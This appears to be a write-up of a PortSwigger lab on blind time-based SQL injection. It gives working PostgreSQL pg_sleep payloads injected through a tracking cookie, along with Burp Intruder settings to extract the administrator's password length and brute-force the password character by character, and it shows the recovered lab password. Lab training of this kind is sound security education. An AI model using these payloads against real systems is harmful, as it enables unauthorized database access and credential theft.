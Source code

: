 ## Lab Description: 

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/99b06c8f-6a14-4dfb-9305-6eb52fa89c97)

## Solution:
Confirm that blind sql injection works -
 
Modify the cookie value
```sql
TrackingId=x'||pg_sleep(10)--
```
![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/4feb3aad-42eb-49bb-920b-c8b2287e05be)
```sql
TrackingId=x';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

We get response after 10 sec delay, which confirms the blind SQL injection vulnerability

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/1a2a4a82-64cb-4307-bdb2-112bf370d9c4)

Change the boolean condition (1=2) to verify it
```sql
TrackingId=x';SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```
We get a response immediately which means the condition failed (1=2)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/8f07eb2e-6399-4ef0-9644-4d98af981e65)

### Verify administrator user exists -
```sql
TrackingId=x';SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```
It takes 10 sec to respond which means there is indeed a user called administrator
![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/a18412d1-f760-407e-a434-e95c57f483ca)

### Find the length of admin's password -

To determine how many characters are in the password of the administrator user. To do this, change the value to:

The below payload checks if the length is > 1.

```sql
';SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/5f10634a-49da-4049-b04b-3e3bd7abaaca)

It takes 10 sec delay to respond which means it is > 1 character.

Automate this process,

    Send the req to intruder
    Add length of password part as payload (>1)
    Payload type - Sniper
    Payload - Numbers (1 to 50 with step 1)

Add an extra column called Response Received to show the response time of each request.

At a payload 20 , the delay of response does not happen, means the length of password is 20 characters

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/ba0aa978-dc77-4e71-b073-4ab417e2f093)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/cd0f9225-d126-41db-9f7b-f158c70eb66c)

Bruteforce the admin's password -

To bruteforce the password, we use a payload where we take first letter of the password and try to match it with all alphabets and numbers. If it matches then we get a 10 sec delay.

TrackingId=x'%3BSELECT+CASE+WHEN (username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--

Automate this

    Add the part which replaces the first character (1,1) as payload 1.
    Add the character to be matched against ('a') as payload 2.
    Attack type - Cluster Bomb
    Payload 1 - Numbers (1 to20 with step 1)
    Payload 2 - Bruteforcer (min & max length as 1)

Once we get the result, we can segregate the result and get the password like before, since we can't arrange both response received and payload1 together.

So,

Highlight the requests which has 10 sec delay.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/77ee3888-7e55-4600-9b9d-e6f696889926)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/e577c940-1e35-49b7-b89f-f325cd359070)

username: `administrator` password: `5r3t0e5zimvzomd1x0tt`

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/81854452-9c57-4824-a503-2765e898a117)


